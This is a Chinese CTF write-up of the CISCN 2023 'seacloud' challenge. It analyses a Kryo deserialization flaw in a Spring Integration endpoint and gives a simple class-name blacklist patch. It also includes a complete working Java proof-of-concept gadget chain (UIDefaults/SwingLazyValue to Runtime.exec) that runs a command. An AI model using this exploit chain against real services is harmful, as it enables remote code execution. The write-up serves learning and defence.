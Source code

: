 # CISCN 2023 西南赛区半决赛 seacloud

题目附件👉[下载](../backup/seacloud.zip)

好像是当时场上攻击0解题，但挺多人得到了防御分

这两天又做了一遍，发现这题考察的知识点还挺多的

（第一次参加线下赛没能上网真的难绷😭，被队里另一个web✌和pwn✌带飞了）

前置知识（题目就给了这两个提示）：

* [Hessian原生JDK利用](../Deserial/hessian_only_jdk.md)
* [Kryo反序列化]

## Analysis

只有一个控制器`MessageController`，对传入的message进行base64解码

![image-20230622132240291](../.gitbook/assets/image-20230622132240291.png)

这个`org.springframework.integration.codec.CodecMessageConverter`是什么？

根据官方文档的说法

> A MessageConverter that delegates to a Codec to convert.

这里实例化`CodecMessageConverter`就传入了`org.springframework.integration.codec.kryo.MessageCodec`

`Codec`又是什么呢

> Interface for classes that perform both encode (serialize) and decode (deserialize) on multiple classes.

大概就是跟序列化和反序列化有关的，而且这个又是kryo包下，题目也提示了Kryo反序列化

跟进`CodecMessageConverter#toMessage`

![image-20230622150130904](../.gitbook/assets/image-20230622150130904.png)

这里指定了解码的类型`this.messageClass`（`GenericMessage`），最后`MessageCodec#decode`也返回了一个`Message`对象，所以后面构造的时候要用`GenericMessage`将payload封装起来

```java
public class GenericMessage<T> implements Message<T>, Serializable {
	// Create a new message with the given payload.
	public GenericMessage(T payload) {
		this(payload, new MessageHeaders(null));
	}
    @Override
	public T getPayload() {
		return this.payload;
	}
}
```

又注意到控制器最后调用`message.getPayload`返回了`User`对象。下面代码可证实

```java
User user = new User();
user.setName("seaclouds");
user.setAge("10");
GenericMessage message = new GenericMessage(user); // 实例化GenericMessage传入payload
MessageCodec messageCodec = new MessageCodec();
byte[] bytes = messageCodec.encode(message);

CodecMessageConverter codecMessageConverter = new CodecMessageConverter(new MessageCodec());
Message<?> messagecode = codecMessageConverter.toMessage(bytes, (MessageHeaders) null);
System.out.println(messagecode.getPayload());
// 输出User{name='seaclouds', age='10'}
```

回到`toMessage`，继续跟进`decode`

![image-20230622151117090](../.gitbook/assets/image-20230622151117090.png)

将字节数组封装到Kryo自定义的输入流`com.esotericsoftware.kryo.io.Input`

一路跟进就到了熟悉的`Kryo#readObject`

调用栈👇

```
readClassAndObject:801, Kryo (com.esotericsoftware.kryo)
read:153, MapSerializer (com.esotericsoftware.kryo.serializers)
read:39, MapSerializer (com.esotericsoftware.kryo.serializers)
readObject:709, Kryo (com.esotericsoftware.kryo)
read:49, MessageHeadersSerializer (org.springframework.integration.codec.kryo)
read:34, MessageHeadersSerializer (org.springframework.integration.codec.kryo)
readObject:731, Kryo (com.esotericsoftware.kryo)
read:125, ObjectField (com.esotericsoftware.kryo.serializers)
read:543, FieldSerializer (com.esotericsoftware.kryo.serializers)
readObject:709, Kryo (com.esotericsoftware.kryo)
doDecode:97, PojoCodec (org.springframework.integration.codec.kryo)
lambda$decode$2:86, AbstractKryoCodec (org.springframework.integration.codec.kryo)
execute:-1, 1625066712 (org.springframework.integration.codec.kryo.AbstractKryoCodec$$Lambda$500)
run:58, KryoPoolQueueImpl (com.esotericsoftware.kryo.pool)
decode:86, AbstractKryoCodec (org.springframework.integration.codec.kryo)
decode:72, AbstractKryoCodec (org.springframework.integration.codec.kryo)
toMessage:62, CodecMessageConverter (org.springframework.integration.codec)
```

网上Kryo相关的攻击都是在Dubbo下利用的

```
com.esotericsoftware.kryo#readClassAndObject ->
	com.esotericsoftware.kryo.serializers#read ->
		java.util.HashMap#put ->
			org.springframework.aop.target.HotSwappableTargetSource#equals ->
				com.sun.org.apache.xpath.internal.objects.XString ->
					com.alibaba.fastjson.JSON#toString -> fastjson gadget 
							-> TemplatesImpl to load evil class
```

fastjson是Dubbo自带的，本题没有这个依赖

也就是要找后半段链子来接上`toString`

根据题目提示用Hessian原生JDK去打（Hessian在那条链只充当`source`触发toString）

```
javax.activation.MimeTypeParameterList#toString
	UIDefaults#get
		UIDefaults#getFromHashTable
			UIDefaults$LazyValue#createValue
				SwingLazyValue#createValue
					sun.reflect.misc.MethodUtil#invoke
```

缝一下就能打了

## Patch and POC

如何修复呢？

最粗暴的方式就是把几个关键类禁了，但由于这里是byte数组转字符串，可能存在一些类名卡一半

![image-20230622155158515](../.gitbook/assets/image-20230622155158515.png)

```java
String test = new String(decodemsg);
if(test.contains("com.esotericsoftware.kryo") || test.contains("org.springframework") || test.contains("javax.activation.MimeTypeParameter")){
    return "illegal deserialization";
}
```

这个方法是比赛的时候想到的，但我不会用Maven指定本地jar包位置。。。打包不了patch

要能上网一下子的事情🤬🤮，下次比赛记得弄个本地Maven镜像

也可以上RASP通防，不过我太菜了不会用🤧

完整POC：

```java
import com.sun.org.apache.xpath.internal.objects.XString;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.integration.codec.CodecMessageConverter;
import org.springframework.integration.codec.kryo.MessageCodec;
import org.springframework.messaging.Message;
import org.springframework.messaging.MessageHeaders;
import org.springframework.messaging.support.GenericMessage;
import sun.swing.SwingLazyValue;

import javax.activation.MimeTypeParameterList;
import javax.swing.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;

public class Test {
    public static void main(String[] args) throws Exception {
        UIDefaults uiDefaults = new UIDefaults();
        Method invokeMethod = Class.forName("sun.reflect.misc.MethodUtil").getDeclaredMethod("invoke", Method.class, Object.class, Object[].class);
        Method exec = Class.forName("java.lang.Runtime").getDeclaredMethod("exec", String.class);
        SwingLazyValue slz = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invokeMethod, new Object(), new Object[]{exec, Runtime.getRuntime(), new Object[]{"calc"}}});
        uiDefaults.put("p4d0rn", slz);
        MimeTypeParameterList mimeTypeParameterList = new MimeTypeParameterList();
        setFieldValue(mimeTypeParameterList, "parameters", uiDefaults);

        XString x = new XString("test");
        HashMap<Object, Object> hashMap = new HashMap<>();
        Object v1 = new HotSwappableTargetSource(mimeTypeParameterList);
        Object v2 = new HotSwappableTargetSource(x);

        setFieldValue(hashMap, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        } catch (ClassNotFoundException e) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(hashMap, "table", tbl);

        GenericMessage message = new GenericMessage(hashMap);
        MessageCodec messageCodec = new MessageCodec();
        byte[] bytes = messageCodec.encode(message);
        //System.out.println(new String(Base64.getEncoder().encode(bytes)));

        CodecMessageConverter codecMessageConverter = new CodecMessageConverter(new MessageCodec());
        Message<?> messagecode = codecMessageConverter.toMessage(bytes, (MessageHeaders) null);
        messagecode.getPayload();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```